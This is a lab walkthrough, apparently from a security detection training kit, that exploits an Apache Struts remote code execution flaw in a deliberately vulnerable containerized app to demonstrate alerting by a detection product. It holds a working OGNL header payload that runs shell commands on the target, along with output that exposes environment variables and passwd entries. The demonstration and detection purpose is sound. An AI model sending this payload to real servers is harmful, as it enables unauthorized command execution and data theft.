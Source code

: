 # Scenario: Detect Apache Struts RCE Vulnerability Exploitation

***Requires XDR for Containers***

## Prerequisites

- Vision One connected to your AWS Account
- Playground One ECS Cluster (Any variant)
    - Running app: Java-Goof running on vulnerable Tomcat
- Extracted contents of `exploit.zip`

Ensure to have an ECS Cluster up and running:

```sh
pgo --apply ecs
```

If you need to extract the exploits unzip with the password `virus`:

```sh
cd ${ONEPATH}
unzip exploits.zip
```

## Disclaimer

> ***Note:*** It is highly recommended to have the `awsone.access_ip` set to a single IP or at least a small CIDR before deploying the ECS cluster. This will prevent anonymous users playing with your environmnent. Remember: we're using vulnerable apps.

## Exploiting

First, retrieve the load balancer DNS name

```sh
pgo -o ecs
```

Example output with ECS EC2:

```sh
cluster_name_ec2 = "playground-ecs-ec2"
loadbalancer_dns_ec2 = "playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com"
```

If you are using ECS Fargate, the variable is named `loadbalancer_dns_fargate`.

### Exploit

Run:

```sh
cd ${ONEPATH}/exploits/struts/
./struts-exploit.sh playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com
```

Expexted result:

```ascii
*   Trying 18.195.245.32:80...
* Connected to playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com (18.195.245.32) port 80 (#0)
> GET /todolist/todolist/ HTTP/1.1
> Host: playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com
> User-Agent: curl/7.81.0
> Accept: */*
> Content-type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='env').(#cmds={'/bin/bash','-c',#cmd}).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 
< Date: Tue, 01 Aug 2023 12:45:58 GMT
< Transfer-Encoding: chunked
< Connection: keep-alive
< 
LD_LIBRARY_PATH=/usr/local/tomcat/native-jni-lib
ECS_CONTAINER_METADATA_URI_V4=http://169.254.170.2/v4/46de0786-9920-42aa-bff4-c17fd4d273c5
CATALINA_HOME=/usr/local/tomcat
LANG=C.UTF-8
HOSTNAME=ip-10-0-175-104.eu-central-1.compute.internal
...
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
messagebus:x:101:101::/var/run/dbus:/bin/false
* transfer closed with outstanding read data remaining
* Closing connection 0
curl: (18) transfer closed with outstanding read data remaining
```

Vision One Observed Attack Techniques:

![alt text](images/xdr_for_containers-ecs-struts-01.png "Exploit")
